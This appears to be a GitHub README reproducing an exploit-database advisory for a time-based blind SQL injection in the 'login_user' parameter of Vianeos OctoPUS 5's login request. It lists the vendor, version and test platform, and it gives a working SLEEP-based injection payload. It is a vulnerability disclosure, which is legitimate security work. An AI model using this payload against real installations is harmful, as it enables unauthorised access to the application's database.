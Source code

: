 # vianeos-octopus_V5_SQLi
Vianeos OctoPUS 5 - 'login_user' SQLi


# Exploit Title: Vianeos OctoPUS 5 - 'login_user' SQLi
# Date: 01/07/2021
# Exploit Author: Audencia Business SCHOOL
# Vendor Homepage: http://www.vianeos.com/en/home-vianeos/
# Software Link: http://www.vianeos.com/en/octopus/
# Version: > V5
# Tested on: Fedora / Apache2 / MariaDB


Octopus V5 SQLi

The "login_user =" parameter present in the POST authentication request is vulnerable to an Time Based SQLi as follow :

```
Parameter: login_user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: signin_user=1&login_user=1' AND (SELECT 8860 FROM (SELECT(SLEEP(5)))xENj) AND 'OoKG'='OoKG&password_user=1
```
